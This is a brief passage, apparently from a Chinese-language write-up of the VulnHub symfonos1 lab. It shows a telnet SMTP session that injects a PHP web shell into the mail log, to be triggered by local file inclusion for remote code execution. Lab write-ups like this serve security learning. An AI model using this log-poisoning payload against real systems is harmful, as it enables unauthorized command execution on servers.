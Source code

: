 ![](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos1/16.png)

使用重置后的密码登录后台,尝试拿 shell 无果,google 后发现有人使用 SMTP 日志投毒配合 LFI 来进行 RCE https://www.hackingarticles.in/smtp-log-poisioning-through-lfi-to-remote-code-exceution/

跟着大佬学
```
telnet 192.168.141.148 25
MAIL FROM: <test>
RCPT TO: Helios
data
<?php system($_GET['a']);?>
.
quit
```
